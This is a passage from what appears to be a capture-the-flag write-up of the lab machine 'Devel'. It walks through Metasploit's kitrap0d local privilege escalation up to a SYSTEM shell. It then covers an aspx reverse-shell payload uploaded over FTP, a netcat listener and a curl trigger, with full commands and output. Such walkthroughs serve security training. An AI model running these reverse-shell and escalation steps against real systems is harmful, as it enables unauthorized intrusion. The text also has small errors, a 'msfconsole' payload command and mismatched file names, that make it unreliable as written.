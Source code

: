 ```bash
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

A few options here - lets try `exploit/windows/local/ms10_015_kitrap0d`.

```bash
msf6 auxiliary(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d
msf6 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => tun0
msf6 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 1
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.6:4444
[*] Reflectively injecting payload and triggering the bug...
[*] Launching msiexec to host the DLL...
[+] Process 804 launched.
[*] Reflectively injecting the DLL into 804...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 2 opened (10.10.14.6:4444 -> 10.129.193.205:49158 ) at 2021-12-07 00:47:49 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

This will start another _Meterpreter_ session but as the privileged user _NT AUTHORITY/SYSTEM_. From there, you can cd (change directory) into the c:\Users\Administrator\Desktop directory and find the flag.

### Inital Shell without Metasploit

Instead of creating a Meterpreter shell with msfvenom, we can create a tcp shell and use **netcat** to listen for a connection.

```bash
msfconsole -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.6 LPORT=6001 -o shell.aspx
```

Upload the reverse shell in the same way as previously - by using the `put` command on the FTP server.

Now start a netcat listener.

```bash
nc -lvnp 6001
```

We can start the reverse shell by navigating to [http://devel.htb/revshell.aspx](http://devel.htb/revshell.aspx) or using curl in the terminal.

```bash
curl http://devel.htb/revshell.aspx
```

```bash
nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.5] 49157
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```
